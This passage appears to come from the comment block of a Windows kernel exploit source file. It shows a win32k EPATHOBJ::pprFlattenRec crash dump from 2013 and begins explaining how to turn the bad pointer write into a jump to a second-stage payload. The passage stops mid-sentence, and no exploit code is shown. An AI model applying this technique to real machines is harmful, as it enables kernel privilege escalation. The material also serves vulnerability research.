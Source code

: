 //   *** ERROR: Module load completed but symbols could not be loaded for ComplexPath.exe
//   Probably caused by : win32k.sys ( win32k!EPATHOBJ::pprFlattenRec+82 )
//
//   Followup: MachineOwner
//   ---------
//
//   nt!RtlpBreakWithStatusInstruction:
//   810f46f4 cc              int     3
//   kd&gt; kv
//   ChildEBP RetAddr  Args to Child
//   a03ab494 8111c87d 00000003 c17b60e1 cccccccc nt!RtlpBreakWithStatusInstruction (FPO: [1,0,0])
//   a03ab4e4 8111c119 00000003 817d5340 a03ab8e4 nt!KiBugCheckDebugBreak+0x1c (FPO: [Non-Fpo])
//   a03ab8b8 810f30ba 00000050 cccccccc 00000001 nt!KeBugCheck2+0x655 (FPO: [6,239,4])
//   a03ab8dc 810f2ff1 00000050 cccccccc 00000001 nt!KiBugCheck2+0xc6
//   a03ab8fc 811a2816 00000050 cccccccc 00000001 nt!KeBugCheckEx+0x19
//   a03ab94c 810896cf 00000001 cccccccc a03aba2c nt! ?? ::FNODOBFM::`string'+0x31868
//   a03aba14 8116c4e4 00000001 cccccccc 00000000 nt!MmAccessFault+0x42d (FPO: [4,37,4])
//   a03aba14 8f18972e 00000001 cccccccc 00000000 nt!KiTrap0E+0xdc (FPO: [0,0] TrapFrame @ a03aba2c)
//   a03abbac 8f103c28 0124eba0 a03abbd8 8f248f79 win32k!EPATHOBJ::pprFlattenRec+0x82 (FPO: [Non-Fpo])
//   a03abbb8 8f248f79 1c010779 0016fd04 8f248f18 win32k!EPATHOBJ::bFlatten+0x1f (FPO: [0,1,0])
//   a03abc08 8116918c 1c010779 0016fd18 776d7174 win32k!NtGdiFlattenPath+0x61 (FPO: [1,15,4])
//   a03abc08 776d7174 1c010779 0016fd18 776d7174 nt!KiFastCallEntry+0x12c (FPO: [0,3] TrapFrame @ a03abc14)
//   0016fcf4 76b1552b 0124147f 1c010779 00000040 ntdll!KiFastSystemCallRet (FPO: [0,0,0])
//   0016fcf8 0124147f 1c010779 00000040 00000000 GDI32!NtGdiFlattenPath+0xa (FPO: [1,0,0])
//   WARNING: Stack unwind information not available. Following frames may be wrong.
//   0016fd18 01241ade 00000001 00202b50 00202ec8 ComplexPath+0x147f
//   0016fd60 76ee1866 7f0de000 0016fdb0 77716911 ComplexPath+0x1ade
//   0016fd6c 77716911 7f0de000 bc1d7832 00000000 KERNEL32!BaseThreadInitThunk+0xe (FPO: [Non-Fpo])
//   0016fdb0 777168bd ffffffff 7778560a 00000000 ntdll!__RtlUserThreadStart+0x4a (FPO: [SEH])
//   0016fdc0 00000000 01241b5b 7f0de000 00000000 ntdll!_RtlUserThreadStart+0x1c (FPO: [Non-Fpo])
//   kd&gt; .trap a03aba2c
//   ErrCode = 00000002
//   eax=cccccccc ebx=80206014 ecx=80206008 edx=85ae1224 esi=0124eba0 edi=a03abbd8
//   eip=8f18972e esp=a03abaa0 ebp=a03abbac iopl=0         nv up ei ng nz na pe nc
//   cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010286
//   win32k!EPATHOBJ::pprFlattenRec+0x82:
//   8f18972e 8918            mov     dword ptr [eax],ebx  ds:0023:cccccccc=????????
//   kd&gt; vertarget
//   Windows 8 Kernel Version 9200 MP (1 procs) Free x86 compatible
//   Product: WinNt, suite: TerminalServer SingleUserTS
//   Built by: 9200.16581.x86fre.win8_gdr.130410-1505
//   Machine Name:
//   Kernel base = 0x81010000 PsLoadedModuleList = 0x811fde48
//   Debug session time: Mon May 20 14:17:20.259 2013 (UTC - 7:00)
//   System Uptime: 0 days 0:02:30.432
//   kd&gt; .bugcheck
//   Bugcheck code 00000050
//   Arguments cccccccc 00000001 8f18972e 00000002
//
// EXPLOITATION
//
// We're somewhat limited with what we can do, as we don't control what's
// written, it's always a pointer to a PATHRECORD object. We can clobber a
// function pointer, but the problem is making it point somewhere useful.
//
// The solution is to make the Next pointer a valid sequence of instructions,
// which jumps to our second stage payload. We have to do that in just 4 bytes
// (unless you can find a better call site, let me know if you spot one).
//
// Thanks to progmboy for coming up with the solution: you reach back up the
// stack and pull a SystemCall parameter out of the stack. It turns out